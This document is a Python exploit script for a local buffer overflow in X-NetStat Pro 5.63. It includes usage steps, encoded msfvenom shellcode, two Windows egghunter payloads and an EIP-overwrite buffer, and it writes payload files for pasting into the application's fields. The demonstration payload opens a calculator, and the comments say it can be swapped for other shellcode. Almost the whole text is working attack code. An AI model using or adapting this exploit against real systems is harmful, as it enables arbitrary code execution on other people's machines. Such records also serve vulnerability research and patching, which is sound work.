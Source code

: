 EXP
---

    #!/usr/bin/env python
    #---------------------------------------------------------------------------------------------------------#
    # Exploit: X-NetStat Pro 5.63 - Local Buffer Overflow (EggHunter)                                         #
    # Date: 2019-03-23                                                                                        #
    # Author: Peyman Forouzan                                                                                 #
    # Tested Against: Winxp SP2 32-64 bit - Win7 Enterprise SP1 32-64 bit - Win10 Enterprise 32-64 bit        #
    # Vendor Homepage: https://freshsoftware.com                                                              #
    # Software Download : https://www.freshsoftware.com/files/xns56p_setup.exe                                #
    # Version: 5.63                                                                                           #
    # Special Thanks to my wife                                                                               #
    # The program has Local Buffer Overflow in several places.                                                #
    # Note: Although there are even more simple codes to this vulnerability,                                  #
    # this technique (EggHunter) has been used to run vulnerability in different windows versions.            #
    # Steps :                                                                                                 #
    #  1- Run python code : X-NetStat.py ( Three files are created )                                          #
    #  2- App --> Tools --> HTTP Client --> paste in contents from the egg.txt into "URL"                     #
    #         --> Enter --> Close HTTP Client window.                                                         #
    #  3- Rules --> Add New Rule --> Actions --> paste in contents from the egghunter-winxp-win7.txt          #
    #     or egghunter-win10.txt (depend on your windows version) into "Run Program" --> Ok                   #
    #     --> Wait a litle --> Shellcode (Calc) open                                                          #
    # Also Instead of the third stage you can :                                                               #
    #     File --> Import / Resolve bulk IP List ... --> paste in contents from the egghunter-winxp-win7.txt  #
    #     or egghunter-win10.txt (depend on your windows version) into "IP List (One IP per Line)" -->        #
    #     Then Press Open file (Folder) Icon --> Wait a litle --> Shellcode (Calc) open                       #
    #---------------------------------------------------------------------------------------------------------#
    # "Egg" shellcode into memory --> Egghunter field overflow: EIP overwrite                                 #
    #---------------------------------------------------------------------------------------------------------#

    #------------------------------------   EGG Shellcode Generation    ---------------------------------------

    #msfvenom -p windows/exec cmd=calc.exe BufferRegister=EDI -e x86/alpha_mixed -f python -a x86 --platform windows -v egg
    # ( Can be replaced with Shellcode )
    egg =  "w00tw00t"
    egg += "\x57\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
    egg += "\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
    egg += "\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
    egg += "\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
    egg += "\x79\x6c\x5a\x48\x4e\x62\x77\x70\x57\x70\x63\x30\x71"
    egg += "\x70\x4b\x39\x5a\x45\x35\x61\x4f\x30\x52\x44\x4c\x4b"
    egg += "\x52\x70\x46\x50\x6c\x4b\x53\x62\x54\x4c\x6c\x4b\x43"
    egg += "\x62\x44\x54\x6c\x4b\x71\x62\x51\x38\x34\x4f\x6e\x57"
    egg += "\x31\x5a\x36\x46\x55\x61\x6b\x4f\x4c\x6c\x37\x4c\x75"
    egg += "\x31\x73\x4c\x45\x52\x54\x6c\x77\x50\x49\x51\x48\x4f"
    egg += "\x34\x4d\x53\x31\x69\x57\x39\x72\x4a\x52\x62\x72\x43"
    egg += "\x67\x6e\x6b\x71\x42\x52\x30\x4c\x4b\x70\x4a\x47\x4c"
    egg += "\x6e\x6b\x62\x6c\x62\x31\x72\x58\x6a\x43\x70\x48\x33"
    egg += "\x31\x4e\x31\x52\x71\x4c\x4b\x36\x39\x37\x50\x63\x31"
    egg += "\x5a\x73\x4c\x4b\x42\x69\x52\x38\x68\x63\x57\x4a\x31"
    egg += "\x59\x4e\x6b\x44\x74\x4c\x4b\x55\x51\x38\x56\x50\x31"
    egg += "\x6b\x4f\x6e\x4c\x69\x51\x78\x4f\x46\x6d\x36\x61\x58"
    egg += "\x47\x46\x58\x4b\x50\x52\x55\x39\x66\x65\x53\x71\x6d"
    egg += "\x79\x68\x45\x6b\x31\x6d\x45\x74\x34\x35\x7a\x44\x52"
    egg += "\x78\x4c\x4b\x62\x78\x77\x54\x47\x71\x58\x53\x75\x36"
    egg += "\x6c\x4b\x34\x4c\x70\x4b\x6c\x4b\x52\x78\x35\x4c\x43"
    egg += "\x31\x58\x53\x6c\x4b\x73\x34\x6e\x6b\x67\x71\x58\x50"
    egg += "\x6c\x49\x73\x74\x45\x74\x55\x74\x63\x6b\x61\x4b\x33"
    egg += "\x51\x32\x79\x51\x4a\x36\x31\x49\x6f\x4b\x50\x71\x4f"
    egg += "\x71\x4f\x42\x7a\x6c\x4b\x44\x52\x48\x6b\x6e\x6d\x31"
    egg += "\x4d\x50\x6a\x35\x51\x6e\x6d\x6f\x75\x48\x32\x55\x50"
    egg += "\x75\x50\x53\x30\x46\x30\x55\x38\x74\x71\x4c\x4b\x72"
    egg += "\x4f\x4e\x67\x69\x6f\x6b\x65\x4d\x6b\x5a\x50\x38\x35"
    egg += "\x79\x32\x56\x36\x45\x38\x59\x36\x6a\x35\x6f\x4d\x6f"
    egg += "\x6d\x69\x6f\x59\x45\x35\x6c\x64\x46\x31\x6c\x76\x6a"
    egg += "\x4b\x30\x79\x6b\x4b\x50\x74\x35\x73\x35\x4d\x6b\x73"
    egg += "\x77\x65\x43\x71\x62\x32\x4f\x50\x6a\x75\x50\x31\x43"
    egg += "\x39\x6f\x5a\x75\x55\x33\x43\x51\x72\x4c\x45\x33\x44"
    egg += "\x6e\x62\x45\x31\x68\x62\x45\x63\x30\x41\x41"

    f = open ("egg.txt", "w")
    f.write(egg)
    f.close()

    #---------------------------------   EGG Hunter Shellcode Generation    -----------------------------------

    #encode egghunter code produced by mona (looking for w00tw00t) into only alpha characters

    # EggHunter - Modified Version for Winxp and Win7 (32-64 bit)
    egghunter =  "\x4c\x4c\x4c\x4c\x5f"
    egghunter += "\x57\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
    egghunter += "\x49\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58"
    egghunter += "\x50\x30\x41\x35\x41\x6b\x41\x46\x51\x32\x41\x47"
    egghunter += "\x32\x42\x47\x30\x42\x47\x41\x42\x58\x50\x38\x41"
    egghunter += "\x47\x75\x4a\x49\x56\x51\x6b\x62\x75\x36\x4e\x6c"
    egghunter += "\x48\x4b\x6b\x30\x59\x6b\x34\x63\x64\x35\x33\x38"
    egghunter += "\x45\x61\x49\x4b\x36\x33\x50\x53\x70\x53\x43\x63"
    egghunter += "\x38\x33\x6f\x30\x43\x56\x4e\x61\x48\x4a\x79\x6f"
    egghunter += "\x44\x4f\x30\x42\x72\x72\x6b\x30\x59\x6b\x39\x50"
    egghunter += "\x30\x74\x67\x78\x52\x4a\x77\x72\x50\x58\x48\x4d"
    egghunter += "\x56\x4e\x71\x4a\x7a\x4b\x35\x42\x70\x6a\x67\x56"
    egghunter += "\x42\x78\x56\x51\x6b\x79\x6f\x79\x68\x62\x72\x44"
    egghunter += "\x59\x6f\x67\x63\x62\x7a\x6b\x33\x45\x6c\x57\x54"
    egghunter += "\x75\x50\x62\x54\x67\x71\x31\x4a\x75\x6c\x67\x75"
    egghunter += "\x74\x34\x38\x56\x4f\x48\x44\x37\x30\x30\x74\x70"
    egghunter += "\x31\x64\x6c\x49\x4a\x77\x6e\x4f\x64\x35\x68\x51"
    egghunter += "\x6c\x6f\x33\x45\x48\x4e\x59\x6f\x6d\x37\x41\x41"

    # EggHunter - Modified Version for Windows10 (32-64 bit)
    egghunter10 =  "\x4c\x4c\x4c\x4c\x5f"
    egghunter10 += "\x57\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49"
    egghunter10 += "\x49\x49\x49\x49\x49\x49\x49\x37\x51\x5a\x6a"
    egghunter10 += "\x41\x58\x50\x30\x41\x35\x41\x6b\x41\x46\x51"
    egghunter10 += "\x32\x41\x47\x32\x42\x47\x30\x42\x47\x41\x42"
    egghunter10 += "\x58\x50\x38\x41\x47\x75\x4a\x49\x4d\x53\x4a"
    egghunter10 += "\x4c\x46\x50\x69\x57\x56\x64\x76\x44\x55\x50"
    egghunter10 += "\x37\x70\x55\x50\x73\x30\x48\x47\x43\x74\x55"
    egghunter10 += "\x74\x35\x54\x57\x70\x47\x70\x35\x50\x65\x50"
    egghunter10 += "\x78\x47\x67\x34\x77\x54\x76\x68\x35\x50\x55"
    egghunter10 += "\x50\x53\x30\x45\x50\x66\x51\x4a\x72\x61\x76"
    egghunter10 += "\x4c\x4c\x58\x4b\x6f\x70\x6b\x4b\x61\x33\x50"
    egghunter10 += "\x75\x63\x32\x4c\x73\x4f\x30\x70\x66\x4b\x31"
    egghunter10 += "\x6a\x6a\x49\x6f\x64\x4f\x62\x62\x73\x62\x4d"
    egghunter10 += "\x50\x69\x6b\x79\x50\x30\x74\x64\x4b\x53\x58"
    egghunter10 += "\x6b\x76\x63\x31\x75\x50\x37\x70\x70\x58\x5a"
    egghunter10 += "\x6d\x54\x6e\x52\x7a\x68\x6b\x67\x61\x30\x31"
    egghunter10 += "\x49\x4b\x73\x63\x51\x43\x30\x53\x32\x4a\x71"
    egghunter10 += "\x39\x63\x68\x38\x33\x49\x50\x51\x74\x69\x6f"
    egghunter10 += "\x66\x73\x6d\x53\x7a\x64\x66\x6c\x42\x7a\x55"
    egghunter10 += "\x6c\x47\x75\x71\x64\x49\x44\x78\x38\x72\x57"
    egghunter10 += "\x66\x50\x74\x70\x31\x64\x4f\x79\x4b\x67\x4c"
    egghunter10 += "\x6f\x70\x75\x78\x4f\x6e\x4f\x44\x35\x48\x4c"
    egghunter10 += "\x6b\x4f\x68\x67\x41\x41"

    eip = "\x77\x5a\x46"

    buffer = egghunter + "\x41" * (264 - len(egghunter)) + eip   # Direct Eip Overflow

    f = open ("egghunter-winxp-win7.txt", "w")
    f.write(buffer)
    f.close()
    buffer = egghunter10 + "\x41" * (264 - len(egghunter10)) + eip   # Direct Eip Overflow
    f2 = open ("egghunter-win10.txt", "w")
    f2.write(buffer)
    f2.close()
